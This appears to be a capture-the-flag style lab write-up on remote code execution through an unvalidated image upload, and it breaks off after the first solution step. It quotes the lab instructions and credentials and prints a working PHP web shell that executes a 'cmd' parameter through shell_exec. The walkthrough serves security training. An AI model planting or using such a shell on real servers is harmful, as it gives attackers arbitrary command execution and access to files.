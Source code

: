 ## 1. Lab: Remote code execution via web shell upload

**Instructions:**
This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Solution:**

Once you enter this lab you have the credentials with username : wiener  |  password : peter
and the you have the file upload vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem

![](assets/1.png)
for this you can try to upload file that content the shell you can create this 

```PHP
<?php 
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```
